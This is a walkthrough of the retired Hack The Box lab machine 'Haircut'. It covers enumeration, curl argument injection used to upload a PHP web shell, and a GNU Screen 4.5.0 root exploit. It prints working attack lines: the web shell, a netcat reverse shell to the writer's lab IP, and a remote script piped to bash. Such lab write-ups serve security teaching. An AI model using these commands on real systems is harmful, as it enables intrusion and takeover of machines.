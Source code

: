 # Haircut

This is the write-up for the box Haircut that got retired at the 30th September 2017.
My IP address was 10.10.14.23 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.24    haircut.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/haircut.nmap 10.10.10.24
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is a photo of a person and nothing interesting in the source.
Lets search for hidden paths and PHP files with **Gobuster**:
```markdown
gobuster -u http://10.10.10.24/ -w dir /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php
```

The responses are the path _/uploads_ with HTTP Code 403 Forbidden, a page _/test.html_, where its a picture of hair and _/exposed.php_ where we see this:

![Exposed page](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-1.png)

When clicking on _Go_, it gets back the _test.html_ site.
If we start a web server and input the IP of our server in there it tries to connect to us.

Trying special characters like semicolon and pipes get filtered with a warning, that those characters can't be used.
By inputting anything into the field, it displays an error from `curl`:

![Curl identified](https://kyuu-ji.github.io/htb-write-up/haircut/haircut_web-2.png)

This means that this application sends a `curl` command to get the files.
Lets send this to _Burpsuites Repeater_ to try some things with _cURL_.

### Getting a reverse shell

We can try to put parameters of _cURL_ in there:
```markdown
formurl=--version&submit=Go
```

This works and displays the version number of cURL, so lets try to upload something on the _/uploads_ directory with it.
```markdown
formurl=-o uploads/test.html http://10.10.14.23:8000/test.html&submit=Go
```

Requesting the test.html file we get it back, so we can upload a PHP file to get command execution.
The web shell _shell.php_ file I will upload has this code in it:
```php
<?php echo system($_REQUEST['cmd']); ?>
```

Now we can request the file with the command `whoami` to test it:
```markdown
GET /uploads/shell.php?cmd=whoami HTTP/1.1
```

This works and it is possible to send a command to start a reverse shell on the box.
```markdown
GET /uploads/shell.php?cmd=nc -e /bin/sh 10.10.14.23 9001 HTTP/1.1
```

We are on the box as _www-data_.

## Privilege Escalation

Now executing any Linux enumeration script to get an attack surface:
```markdown
wget http://10.10.14.23:8000/LinEnum.sh | bash
```

Looking for binaries with the _Setuid bit_ enabled:
```markdown
find / -perm -4000 2>/dev/null | xargs ls -la
```

The binay `screen` has the setuid bit set and explicitly the version number 4.5.0 displayed which has a privilege escalation vulnerability. The explanation for this exploit can be found through `searchsploit screen` on the **GNU Screen 4.5.0 - Local Privilege Escalation (PoC)** exploit.

For this we need to create some files first. They are in this folder.
- libhax.c:
- rootshell.c

Compiling the code:
```markdown
gcc rootshell.c -o rootshell

gcc -fPIC -shared -ldl -o libhax.so libhax.c
```

This created the Shared object file _libhax.so_ and the binary _rootshell_.

Executing these commands one after another and in the end executing the _rootshell_ binary:
```markdown
cd /etc
umask 000
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"
screen -ls
/tmp/rootshell
```

This will start a shell as root!

